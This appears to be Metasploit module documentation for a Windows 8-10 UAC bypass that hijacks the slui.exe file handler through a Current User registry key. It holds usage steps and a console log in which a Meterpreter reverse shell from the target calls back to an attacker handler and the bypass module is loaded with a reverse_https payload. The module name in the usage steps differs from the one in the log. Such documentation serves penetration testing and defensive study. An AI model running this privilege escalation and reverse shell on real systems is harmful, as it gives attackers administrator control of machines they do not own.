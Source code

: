 ## Intro

  This module will bypass UAC on Windows 8-10 by hijacking a special key in the Registry under
  the Current User hive, and inserting a custom command that will get invoked when
  any binary (.exe) application is launched. But slui.exe is an auto-elevated binary that is
  vulnerable to file handler hijacking. When we run slui.exe with changed Registry key
  (HKCU:\Software\Classes\exefile\shell\open\command), it will run our custom command as Admin
  instead of slui.exe.

  The module modifies the registry in order for this exploit to work. The modification is
  reverted once the exploitation attempt has finished.
	
  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting the
  payload in a different process.

## Usage
	
  1. First we need to obtain a session on the target system.
  2. Load module: `use exploit/windows/local/bypassuac_comhijack`
  3. Set the `payload`: `set payload windows/x64/meterpreter/reverse_tcp`
  4. Configure the `payload`.

## Scenario

```
msf exploit(multi/handler) > 
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: 8phccqmk) Encoded stage with x86/shikata_ga_nai
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: 8phccqmk) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (192.168.0.30:443 -> 192.168.0.33:49942) at 2018-04-07 11:29:31 +0200

msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  WIN10-01\user01 @ WIN10-01  192.168.0.30:443 -> 192.168.0.33:49942 (192.168.0.33)

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : WIN10-01
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: WIN10-01\user01
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_sluihijack 
msf exploit(windows/local/bypassuac_sluihijack) > options 

Module options (exploit/windows/local/bypassuac_sluihijack):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf exploit(windows/local/bypassuac_sluihijack) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(windows/local/bypassuac_sluihijack) > set LHOST 192.168.0.30
LHOST => 192.168.0.30
msf exploit(windows/local/bypassuac_sluihijack) > set session 1
session => 1
msf exploit(windows/local/bypassuac_sluihijack) > exploit





```
